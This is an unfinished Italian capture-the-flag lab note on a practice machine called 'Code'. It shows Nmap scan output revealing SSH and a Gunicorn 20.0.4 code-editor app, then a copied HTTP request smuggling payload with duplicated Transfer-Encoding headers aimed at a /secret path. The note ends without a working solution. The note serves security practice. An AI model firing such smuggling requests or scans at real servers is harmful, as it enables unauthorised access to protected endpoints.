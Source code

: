 # Code

## NMAP SCAN
Nmap scan report for 10.10.11.62
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   309.34 ms 10.10.16.1
2   112.86 ms 10.10.11.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.97 seconds


noto aperte le 2 porte 22 e 5000. cerco online cosa è Gunicorn


## web app analisi

analizzando la web app non si notano vulnerabilità lampanti (almeno ad occhio)

cercando online noto alcuni attacchi noti per Gunicorn 20.0.4 e provo a usare uno di quelli

POST /hello HTTP/1.1
Host: 172.24.10.161
Transfer-Encoding: chunked
Content-Length: 90
Transfer-Encoding: xchunked

1
a
0

GET /secret HTTP/1.1x
Host: 172.24.10.161
Content-Length: 0


# SOLUZIONE NON TROVATA ANCORA